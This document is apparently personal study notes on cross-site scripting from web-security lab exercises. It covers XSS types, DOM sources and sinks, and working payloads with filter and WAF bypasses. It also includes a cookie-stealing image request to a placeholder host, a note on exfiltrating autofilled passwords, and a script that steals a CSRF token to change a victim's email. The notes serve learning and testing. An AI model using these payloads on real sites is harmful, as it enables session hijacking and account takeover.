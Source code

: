 if the application executes the injected js code, it leads to xss

Reflectes xss - injectd script comes from the current http request
Stored xss - injected script comes from the website's database

DOM-based xss - clientside code is injectable

self xss - it applies only if the victim injects the code... payload cannot be sent by the attacker 

Reflected XSS:
	search=<script>alert(1)</script>
	
Stored xss:
	comment=<script>alert(1)</script>

DOM xss:

When a website contains javascript that takes value(called the source) which can be controlled by the attacker, passes onto an unsafe function(called the sink).

user controlled input = Source
vulnerable function = Sink

relfected+DOM:
	the server processes data from the request and echoes the data into the response

Here are some well-known vulnerable “sources”:-

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB
Database

Here are some well-known vulnerable “sinks”:-

document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
someElement.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
someElement.setAttribute()
RegExp()
someDOMElement.innerHTML
someDOMElement.outerHTML
someDOMElement.insertAdjacentHTML
someDOMElement.onevent

jquery

add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()

	

function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');

payload : search="><script>alert(1)</script>


var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
document.write('<option selected>'+store+'</option>');
  
breakout of the code with this

payload : </option><script>alert(1)</script>

The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire. This means you will need to use alternative elements like img or iframe.

document.getElementById('searchMessage').innerHTML = query

payload : </span><img src=1 onerror="alert(1)">
                    

$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));

payload : javascript:alert(document.cookie)

we can update the herf with a clickable js event

if ng-app is added to a html tag, anything within {{}} will be excuted as a angular experession, thus enter this payload, our code gets executed

payload : {{constructor.constructor('alert(1)')()}}


eval('var searchResultsObj = ' + this.responseText);

'\' is not excaped thus as we enter \" --> its excaped quotation with \\" which making \\ ---> \ thus leaving the quotation free

Payload: \"+alert(1)}//

html.replace('<', '&lt;').replace('>', '&gt;');

this only replaces the first occurence, this we can add annything after that

payload: <test><img src=1 onerror="alert(1)">

steal cookies

<img src='http://url/?'+document.cookie>

if the site is using autofill

if you send a <input id=username><input id=password> that will automatically fill those details which we can then send back to attack server

var xhr1 = new XMLHttpRequest();
xhr1.onreadystatechange = function () {
if(this.readyState == 4 && this.status == 200){
var csrf = this.responseXML.getElementsByTagName('input')[1].value;
var xhr2 = new XMLHttpRequest();
xhr2.open('POST','https://accb1fce1fa66d5a80222e24000700f8.web-security-academy.net/my-account/change-email',true);
xhr2.send('email=test@what.com'+'&csrf='+csrf);
}
}
xhr1.open('GET','https://accb1fce1fa66d5a80222e24000700f8.web-security-academy.net/my-account',true);
xhr1.responseType='document';
xhr1.send()
</script>
<div><iframe src="https://aced1f8d1e9864f8801814dc002b0068.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'></div>

we can trigger the resize and get the payload run

<xss id=x onfocus=alert(1) tabindex=1>

the payload url must have #x so that it will automatically focus to that id and thus triggering the alert()

wfuzz -w tags --hc 400 https://acdf1fff1ff5facb80cf093700f600b1.web-security-academy.net/?search=%3CFUZZ%3E

<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

brute foce all tag names and find the whitelisted tags

<svg><animatetransform onbegin=alert(1) attributeName=transform>

test"%20 src=1 onmouseover=alert(1) autofocus x="

if the input is directly taken inside href, we can use

javascript:alert(1)-> this type of payload

we can break out of attribute with ' quote too

postid=1&' accesskey='x' onclick='alert(1)'

when you enter a ' in search
the input is escaped properly by javascript, but when the browser parses the 
whole things, it take that literally, thus
var input = '\'';
so if we put a </script>
var input='\'</script>';
the broswer will parse till the </script> as one script portion ignore the rest

if the prevention is based on espacing any charactor and not the escape character blackslash itself, it can bypassed by neutralizing by adding a blackslash, which
input = \'
it will take that as input = \\' --> second blackslash was added to espace single quotes, but then there is already a blackslash the browser will escape the \ and leave ' unescaped

if a waf is blocking (), bypass that by passing the input in diffrent way, like, 
onerror=alert;throw 1

this sets the global eror handler to alert, then throw send a input to the global handler which is set to alert, thus making alert(1)

/**/ can be used to bypass space inside js

can use arrow fucntions to trigger throw statements

if the browser decodes the htmlencoded value before the javascript intrepets it, it will enocde that values back to decoded values thus bypassing the security checks

http%3A%2F%2Fwww.google.com%26apos%3b);alert(1)//

here the &apos; is getting decoded by the broweser into ' before the js gets to intrepet those values

document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
incase if it a templete, ${} aything inside this i interpeted as js code

thus the output is passed into ${}, so we can nest the lien
`${user.searchvalue}`--> `${${alert(1)}}`
thus we get the excution

Content Security Policy:
	it adds another layer by restricting the resources that a page can load and resctrictin whether a page can be framed by other pages

	to enable this, http response header Content-Security-Policy should be added

eg: script-src 'self' -> allows only to load to scripts from same domain

CSP directive can specify hash value for the content that i gonna be loaded
CSP directive can specify a nonce and the same value must be used in that tag that loads a script

